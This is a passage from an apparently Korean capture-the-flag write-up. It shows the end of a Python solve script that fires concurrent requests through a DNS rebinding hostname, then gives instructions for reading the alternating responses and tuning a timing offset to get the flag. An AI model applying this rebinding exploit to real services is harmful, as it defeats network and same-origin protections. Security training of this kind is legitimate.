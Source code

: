 ```python
                future = pool.submit(hook, i, session, REBINDER_DNS.format(sess), f"[{i}] "+"A"*0x1000)
                futures.append(future)

            for future in as_completed(futures):
                i, result = future.result()
                print(f"> {i} {result}")

        print(f"[*] Done - {sess}")

main()
```

![image](images/image-017.png)

### 3️⃣ Check Results

`solve.py` 를 실행하여 `DNS Rebinding` 를 수행하면 `{"response": "ok"}` 와 `{"result": "fail"}` 응답이 번갈아가며 받게됩니다.

> `{"response": "ok"}` 응답만 받고 플래그를 획득하지 못한 경우, `solve.py` 내 변수 `TIME_OFFSET` 값을 줄이고 `{"result": "fail"}` 만을 응답 받는 경우, `TIME_OFFSET` 값을 늘립니다.
> 
